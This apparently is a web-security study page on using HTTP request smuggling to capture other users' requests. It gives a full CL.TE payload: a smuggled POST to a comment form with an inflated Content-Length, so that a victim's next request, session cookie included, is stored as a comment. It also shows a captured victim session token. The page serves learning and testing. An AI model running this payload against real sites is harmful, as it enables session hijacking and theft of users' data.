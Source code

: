 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Capturing other users' requests

Application functionality which allows the storage and retrieval of textual data can potentially be captured, this includes session tokens and sensitive data submitted by users.

Some functions that can be used as a vehicle can be comment boxes, emails, screen names, as long as we are able to reflect the victim's request when it is appended to our smuggled request.

For example, we are reflecting a victim's request using a comment box functionality. Notice that the comment parameter is placed last so that we can reflect the victim's requests when it is appended to the comment parameter and displayed.

`GET / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Transfer-Encoding: chunked`\
`Content-Length: 330`

`0`

`POST /post/comment HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 400`\
`Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO`

`csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&`<mark style="color:yellow;">`comment=`</mark>

In our smuggled request, we used an overtly long (400 bytes) even though we sent body with a much lesser size about \~200 bytes. This means that the backend server will wait for the balance 200 bytes.

Therefore, when the victim sends their request and if its \~200 bytes, their request will be appended to our smuggled request and the server will process it as if it is one request.

`POST /post/comment HTTP/1.1`\
`Host: vulnerable-website.com`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 400`\
`Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO`

`csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=`<mark style="color:yellow;">`GET / HTTP/1.1 Host: vulnerable-website.com Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj ...`</mark>

One thing to note that this technique requires trial & error to figure out the length of the victim's request so that we can append it to our smuggled request.If the specifed content-length header is longer than the victim's actual request it will not work

> **One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string**
